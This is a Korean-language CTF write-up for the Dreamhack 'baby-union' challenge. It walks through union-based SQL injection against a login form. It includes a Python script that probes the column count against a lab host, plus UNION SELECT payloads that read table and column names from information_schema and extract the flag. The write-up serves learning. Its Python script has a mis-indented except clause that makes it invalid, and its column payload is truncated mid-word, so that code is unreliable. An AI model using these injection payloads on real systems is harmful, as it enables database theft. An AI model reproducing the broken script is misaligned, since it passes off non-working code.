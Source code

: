 ```yaml
---
layout: post
title: "[드림핵][Lv.1] baby-union 문제 풀이"
date:   2025-07-16 21:00:00 +0900
categories: [CTF & Writeups]
tags: [wargame, web, union-sqli]
---
```



## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: baby-union
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵  워게임](http://dreamhack.io/wargame/challenges/984)



## 2. 문제 분석 (Problem Analysis)
**문제 설명**
- 로그인 시 계정의 정보가 출력되는 웹 서비스이다.
- SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 `init.sql` 파일의 테이블명과 컬럼명은 실제 이름과 다릅니다.

```sql
CREATE TABLE fake_table_name (
	idx int auto_increment primary key,
	fake_col1 varchar(128) not null,
	fake_col2 varchar(128) not null,
	fake_col3 varchar(128) not null,
	fake_col4 varchar(128) not null

);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');)
    #...(취약한 코드 로직)
```

### 1) 컬럼 수 찾는 파이썬 코드

```python
import requests
import warnings


# SSL 경고 무시 (테스트 환경에서만 사용)
warnings.filterwarnings('ignore', message='Unverified HTTPS request')
def find_sql_column_count(target_url):

	"""
	POST 기반 SQL Injection에서 ORDER BY를 사용해 컬럼 수를 찾습니다.
	uid와 upw 파라미터를 모두 전송 한다.
	"""

	print("[-] 컬럼 수 확인을 시작합니다...")

	# 확인할 최대 컬럼 수
	max_columns = 25

	for i in range(1, max_columns + 1):
		# uid에 주입할 페이로드
		payload = f"' OR 1=1 ORDER BY {i}#"

		# POST 요청으로 보낼 데이터. upw에 임의의 값을 넣어줘야 합니다.
		post_data = {
			'uid': payload,
			'upw': 'dummy_password'

		}

		try:
			# POST 요청 전송. verify=False는 HTTPS 인증서 검증을 건너뜁니다.
			response = requests.post(target_url, data=post_data, timeout=5, verify=False)

  

			# HTTP 500 에러가 발생하면 컬럼 수가 초과된 것입니다.
			# 웹 애플리케이션의 반응에 따라 이 조건은 달라질 수 있습니다.

			if response.status_code == 500:
				column_count = i - 1
				print(f"\n[+] 컬럼 수를 찾았습니다: {column_count}개")
				return column_count

			else:

				print(f"[*] {i}개 컬럼 확인... (상태 코드: {response.status_code}, 정상 응답)")

			except requests.exceptions.RequestException as e:

				print(f"[!] 요청 중 오류 발생: {e}")
				return None

		print(f"[-] {max_columns}개까지 시도했지만 컬럼 수를 찾지 못했습니다.")
		return None

if __name__ == '__main__':
	# 실제 공격 대상 URL로 변경해야 합니다.
	URL = "http://host3.dreamhack.games:19347/" # 대상 주소로 변경하세요.

	# 함수 실행
	find_sql_column_count(URL)    

```

### 2)  문제 해설
- 이 문제는 파이썬 코드보다 sql 쿼리를 보는게 핵심이다.
- 이 문제에서 요구하는건 공격자가 컬럼 수를 찾아서, union 인젝션을 사용하여 테이블명과 컬럼명 찾고, flag 값을 얻어 낼 수 있느냐 라는 문제이다.
- 그래서 이 문제는 크게 3가지 단계로 문제를 접근해야 하다.


#### 2-1) 테이블의 컬럼 수는 몇개 있고, 어떤 컬럼을 출력하는지 알아야 한다.
- 처음에 컬럼 수를 확인하기 위해서 나 처럼 파이썬 코드를 작성하기도 할 수 있지만 일단 간단한 테스트는 아래와 같은 페이로드이다.

**[페이로드]**
~~~sql
' union select 1#
' union select 1,2#
' union select 1,2,3#
' union select 1,2,3,4#
~~~

---

- 이렇게 작성 할 때 주의해야하는거 upw 입력 폼에서도 아무 값을 넣어줘야 한다는 것이다.
- 그리고 위 페이로드 처럼 하나씩 증가하면서 컬럼 수의 수를 찾으면 된다.
- 이렇게 컬럼의 수를 찾으면 어떤 컬럼 위치에서 출력이 되는지 파악하면 된다.
- 위 문제에서는 2, 4번 컬럼에 출력이 되는 것이 확인 되었다.


#### 2-2) 테이블 명을 찾아야 한다.
- 이제 컬럼의 수를 알았으니 flag가 있는 테이블명을 찾아야 한다.
- 위 문제에서는 테이블명을 제대로 알려주지 않았기 때문에 테이블명을 찾아야 하는데, mysql 서버 내에는 DB의 메타 정보를 모아둔 DB가 있다.
- 우리는 이걸 이용해서 테이블명을 찾아야 한다.
- mysqli 메타정보 확인하는 건 매우 중요하기 때문에 알아둬야 하겠지만, 추후 나중에 SQL 인젝션 관련 정리를 하면 이 내용을 설명하겠다.
- 지금은 일단 테이블 명을 찾는 페이로드를 작성해보면

**[테이블명을 찾는 페이로드]**
~~~sql
' union select 1,group_concat(table_name),3, 4 from information_schema.tables where table_schema=database()#
~~~

- 위의 명령을 치면 두번째 컬럼에 현재 데이터베이스의 테이블명을 모두 출력해주는데 출력 되는 테이블은 users, onlyflag 이다.
- users 테이블명은 이미 init.sql 를 통해 확인 되었고, 우리가 찾는 flag는 onlyflag 테이블이 있는 것으로 예상 된다.


#### 2-3) 테이블명을 이용하여 컬럼을 찾아야 한다.
- 우리는 2-2에서 테이블을 확인 했다.
- 이제 찾은 테이블명을 통해 컬럼을 찾아보자
- 컬럼명을 찾는 것 역시 mysql 메타데이터의 DB 정보를 통해서 찾을 수 있다.

**[컬럼명을 찾는 페이로드]**
~~~sql
up_concat(column_name),3, 4 from information_schema.columns where table_name='onlyflag'#
~~~

- 위의 페이로드를 통해서 olnyflag 테이블 안에 idx,sname,svalue,sflag,sclose 라는 컬럼이 있다는 것을 확인 할 수 있었다.


- 이제 init.sql 파일을 열어서 다시 확인 해보면 

**[init.sql 부분]**
~~~sql
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');)
~~~

- flag 값은 fake_col2, 3,4 컬럼을 합치면 된다는 것을 알았다. 



#### 2-4) 컬럼을 활용해 flag 확인
- 테이블명과 컬럼명을 확인 했으니 이제 값을 찾는건 단순하다.

**[flag 값 확인]**
~~~sql
' union select 1, (SELECT svalue FROM onlyflag), 3, 4#
' union select 1, (SELECT sflag FROM onlyflag), 3, 4#
' union select 1, (SELECT sclose FROM onlyflag), 3, 4#
~~~

- 이렇게 두 번째 컬럼 이용해서 하나씩 추출 해도 되고, 2, 4번 컬럼을 통해서 한번에 두개의 값을 추출해도 된다.
- 이렇게 추출한 값을 하나로 뭉치면 하나의 flag 값이 된다.

---

